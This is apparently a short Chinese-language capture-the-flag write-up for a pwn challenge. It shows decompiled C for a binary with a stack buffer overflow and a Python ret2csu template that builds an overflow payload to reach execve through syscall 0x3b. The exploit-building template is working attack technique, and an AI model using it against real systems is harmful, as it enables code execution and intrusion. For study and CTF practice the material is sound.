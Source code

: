 我们就要经典用csu达成目的咯

那就要想办法执行构造可以利用的东西

这个题目给了sys_read非常明显嘛

送我们sys，而且main函数也说了syscall(59)#系统调用号不知道的自己去百度哦

相当于调用execve

我们构造个execve(0x3b)

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init();
  puts("input your name,user\n");
  read(0, name, 0x58uLL);
  printf("hi %s\n", name);
  puts("have you ever heard about _syscall_?");
  puts("$rax matters a lot when it comes to _syscall_,ril_,right?");
  puts("for example,syscall(0x3b,...) equals execve(...)");
  puts("but i haven't figured out how they matched in detail ,so can you tell something about it?");
  return read(0, buf, 0x40uLL);
}
```

bss段是最好的布局区段

我们在里面构造就好呀

上csu模板！！

```python
def ret_csu(r12, r13, r14, r15, last):
	payload = offset * 'a'  
	#构造栈溢出的padding
	payload += p64(first_csu) + 'a' * 8    
	#gadgets1的地址
	payload += p64(0) + p64(1)
	#rbx=0, rbp=1
	payload += p64(r12)
	#call调用的地址
	payload += p64(r13) + p64(r14) + p64(r15)
	#三个参数的寄存器
	payload += p64(second_csu)
	#gadgets2的地址
	payload += 'a' * 56
	#pop出的padding
	payload += p64(last)
	#函数最后的返回地址
	return payload

```
